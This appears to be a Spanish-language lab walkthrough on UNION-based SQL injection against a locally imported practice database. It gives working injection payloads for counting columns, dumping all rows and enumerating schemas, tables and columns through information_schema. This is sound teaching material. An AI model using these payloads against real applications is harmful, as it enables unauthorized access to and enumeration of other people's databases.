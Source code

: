 
# Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


# Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


# Consulta que muestra todos los productos
![](capturas/sql-injection-lab1.png)

![](capturas/sql-injection-lab1-2.png)

![](capturas/sql-injection-lab1-3.png)

Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```

![](capturas/sql-injection-lab1-4.png)


# Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```
![](capturas/sql-injection-lab1-5.png)


# Datos de todas las bases de datos, tablas y columnas de MySQL
Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
Inyección →
```
999' UNION select null,
concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_n
ame), information_Schema.columns.column_name FROM information_Schema.columns,
information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
![](capturas/sql-injection-lab1-6.png)
